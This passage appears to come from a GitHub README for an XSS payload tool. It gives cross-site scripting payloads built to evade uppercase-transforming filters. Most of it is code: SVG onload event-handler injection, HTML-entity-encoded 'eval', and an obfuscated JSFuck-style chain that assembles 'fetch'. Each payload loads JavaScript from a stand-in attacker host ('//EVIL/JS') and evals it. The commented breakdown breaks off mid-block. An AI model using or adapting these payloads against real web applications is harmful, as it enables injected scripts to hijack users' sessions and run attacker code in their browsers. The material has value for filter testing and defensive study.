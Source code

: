 **Note:** You can give it an arbitrary payload using the `-p` option. You can also adjust the maximum length. See `python2 fetch_helpers.py --help` for more options.

---
### Dealing with input transformation

##### Usecase: payload is being capitalized, character limit &gt;= 131 (not including wrapping and length of external resource URL)
* *Works with arbitrary payloads*
* `<script>`**_payload_**`</script>` won't work; use event handlers

```
X="FETCH(\"//EVIL/JS\").THEN(R=>R.TEXT().THEN(EVAL))";&#X65;&#X76;&#X61;&#X6C;(X.&#X74;&#X6F;L&#X6F;&#X77;&#X65;&#X72;C&#X61;&#X73;&#X65;())
```

**Explanation:** The second part of the payload is `eval(X.toLowerCase())`.

**Note:** `<script>` doesn't work here, because the HTML characters won't be interpreted. Payload must be in an event handler. For example:

```
<SVG/ONLOAD='X="FETCH(\"//EVIL/JS\").THEN(R=>R.TEXT().THEN(EVAL))";&#X65;&#X76;&#X61;&#X6C;(X.&#X74;&#X6F;L&#X6F;&#X77;&#X65;&#X72;C&#X61;&#X73;&#X65;())'/>
```

##### Usecase: payload is being capitalized, character limit &gt; ~342 (not including wrapping, may vary depending on external resource URL)
* *Works with arbitrary payloads*
* X can be any function that doesn't involve lowercase letters. Some examples are:
  * `URL` and `$`: don't work inside event handlers
  * `USB` and `CSS`: don't have good cross-browser support
  * `[][F[0]+(1/0+[])[3]+F[2]+F[2]]` used below, where `F` is "false", gives `[]["fill"]`, i.e. `Array.prototype.fill`: works in all browsers and in all places

```
T=!0+[];F=!1+[];X=[][F[0]+(1/0+[])[3]+F[2]+F[2]];Y=X+[];S=F[3]+F[2]+Y[5]+Y[3]+F[4];C=Y[3]+Y[S](6,8)+F[3]+T[S](0,3)+Y[S](3,5)+Y[6]+T[1];N=C[S](8,10)+(""[C]+[])[S](9,15);(X[C](25885457[N](36)+"('//"+694029[N](36)+"/"+712[N](36)+"')."+1375583[N](36)+"("+27[N](36)+"=>"+27[N](36)+"."+1372385[N](36)+"()."+1375583[N](36)+"("+693741[N](36)+"))"))()
```

**With comments:**

```
T=!0+[]; // "true"
F=!1+[]; // "false"
// I=1/0+[]; // "Infinity"
X=[][F[0]+(1/0+[])[3]+F[2]+F[2]]; // []["fill"], i.e.
                                  // Array.prototype.fill
Y=X+[]; // "function ...", to get letters "c" and "o"
S=F[3]+F[2]+Y[5]+Y[3]+F[4]; // S="slice"
C=Y[3]+Y[S](6,8)+F[3]+T[S](0,3)+Y[S](3,5)+Y[6]+T[1];
                                  // C="constructor"
N=C[S](8,10)+(""[C]+[])[S](9,15); // N="toString";
                                  // <number>["toString"](36)
                                  // can give any number or
                                  // lowercase letter as string
J=25885457[N](36) // "fetch"
+"('//"
+694029[N](36) // "evil"
+"/"
+712[N](36) // "js"
+"')."
+1375583[N](36) // "then"
+"("
```